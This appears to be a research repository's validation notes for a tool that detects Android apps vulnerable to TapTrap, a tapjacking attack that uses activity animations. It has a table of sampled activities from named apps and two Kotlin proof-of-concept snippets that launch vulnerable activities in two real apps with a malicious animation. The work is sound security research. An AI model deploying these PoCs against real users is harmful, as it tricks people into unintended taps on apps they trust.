 # Validation of the Vulnerable App Detection Pipeline

We validate the findings of the vulnerable app detection pipeline.
The validation process works as follows:

- We randomly select 10 apps of our dataset with `ls ../results/2025-05-20/output | shuf | head -n 10`
- For each app, we randomly select 2 activities
- We manually analyze the selected activities and try to run TapTrap. If we fail to run TapTrap, we note the first reason for the failure.
- We cross-check the results of our manual analysis with the result of the tool, i.e., whether the tool correctly identified the activity as vulnerable or not

## Validation Result

| Package                                        | Activity                                                                 | Vulnerable (Manual) | Vulnerable (Tool) | Correct Classification? |
|-----------------------------------------------|-------------------------------------------------------------------------|----------------------|-------------------|--------------------------|
| com.an.bloodpressure.bloodsugar.bptracker     | com.an.bloodpressure.bloodsugar.bptracker.heart_rate.HeartRateActivity  | yes                  | yes               | yes                      |
| com.an.bloodpressure.bloodsugar.bptracker     | com.applovin.mediation.MaxDebuggerActivity                              | no (not exported)    | no                | yes                      |
| com.eggrollgames.animalmathgrade1free         | com.ansca.corona.CoronaActivity                                         | no (not same task)   | no               | yes                       |
| com.eggrollgames.animalmathgrade1free         | com.ansca.corona.purchasing.StoreActivity                               | no (not exported)    | no               | yes                       |
| com.clear.likejesus                           | com.clear.likejesus.MainActivity                                        | no (not same task)   | no               | yes                       |
| com.clear.likejesus                           | com.google.firebase.auth.internal.RecaptchaActivity                     | no (could not open, not same task)      | no              | yes      |
| com.simyasolutions.writeme.ar                 | com.google.firebase.auth.internal.FederatedSignInActivity               | no (permission required)  | no          | yes
| com.simyasolutions.writeme.ar                 | com.facebook.CustomTabMainActivity                                      | no (not exported)     | no              | yes                        |
| com.studioyou.fullcircle                      | com.canhub.cropper.CropImageActivity                                    | yes                   | yes             | yes                        |
| com.studioyou.fullcircle                      | com.stripe.android.payments.StripeBrowserProxyReturnActivity            | no (could not open, not same task)      | no              | yes      |
| screenrecorder.videorecorder.rec.video.screen.recorder | com.tianxingjian.screenshot.ui.activity.AboutActivity          | no (not exported)     | no              | yes
| screenrecorder.videorecorder.rec.video.screen.recorder | com.superlab.feedback.activity.PreviewPictureActivity          | no (not exported)     | no              | yes
| com.tigonmobile.yulgan                        | com.joypiegame.rxjh.WebActivity                                         | no (not exported)     | no              | yes
| com.tigonmobile.yulgan                        | com.twitter.sdk.android.tweetui.PlayerActivity                          | no (not exported)     | no              | yes
| org.koboc.collect.android                     | org.odk.collect.android.activities.FormFillingActivity                  | no (not exported)     | no              | yes
| org.koboc.collect.android                     | org.odk.collect.errors.ErrorActivity                                    | no (not exported)     | no              | yes
| beauty.keyboard.wallpaper.flowerlanguage      | beauty.keyboard.wallpaper.flowerlanguage.direct.DirectEditorActivity    | no (not exported)     | no              | yes
| beauty.keyboard.wallpaper.flowerlanguage      | com.google.android.gms.ads.NotificationHandlerActivity                  | no (not exported)     | no              | yes
| relaxmusic.rainsounds.sleepsounds             | relaxmusic.rainsounds.sleepsounds.fsounds.settime.SetCustomTimeActivity | no (not exported)     | no              | yes
| relaxmusic.rainsounds.sleepsounds             | relaxmusic.rainsounds.sleepsounds.util.debug.DebugLanguageActivity      | no (not exported)     | no              | yes

### PoCs

The following PoCs can be used to run TapTrap on the given activities. `R.anim.fade_in` refers to a malicious TapTrap animation.

#### com.an.bloodpressure.bloodsugar.bptracker/com.an.bloodpressure.bloodsugar.bptracker.heart_rate.HeartRateActivity

```kotlin
val options = ActivityOptions.makeCustomAnimation(this, R.anim.fade_in, 0)
val intent = Intent().apply {
    setClassName("com.an.bloodpressure.bloodsugar.bptracker", "com.an.bloodpressure.bloodsugar.bptracker.heart_rate.HeartRateActivity")
}
startActivity(intent, options.toBundle())
```

#### com.studioyou.fullcircle/com.canhub.cropper.CropImageActivity

```kotlin
val options = ActivityOptions.makeCustomAnimation(this, R.anim.fade_in, 0)
val intent = Intent().apply {
    setClassName("com.studioyou.fullcircle", "com.canhub.cropper.CropImageActivity")
}
startActivity(intent, options.toBundle())
```